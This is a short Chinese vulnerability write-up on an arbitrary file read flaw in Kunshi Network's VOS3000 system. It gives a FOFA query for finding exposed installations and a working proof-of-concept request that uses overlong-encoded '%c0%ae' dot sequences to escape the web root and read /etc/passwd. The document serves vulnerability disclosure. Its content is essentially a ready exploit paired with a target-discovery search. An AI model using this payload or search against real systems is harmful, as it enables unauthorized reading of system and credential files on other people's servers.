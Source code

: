# 昆石网络 VOS3000虚拟运营支撑系统 %c0%ae%c0%ae 任意文件读取漏洞

## 漏洞描述

昆石网络 VOS3000虚拟运营支撑系统 通过 %c0%ae%c0%ae 等字符绕过检测，可导致任意文件读取漏洞

## 漏洞影响

<a-checkbox checked>昆石网络 VOS3000虚拟运营支撑系统</a-checkbox></br>

## FOFA

<a-checkbox checked>app="VOS-VOS3000"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1646106250912-5403bbab-c801-402a-923b-545c45f1051d.png)

验证POC

```javascript
/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

![img](../../../.vuepress/public/img/1646106380805-4471d7bf-54b9-4eec-8f1a-b2a33881335b.png)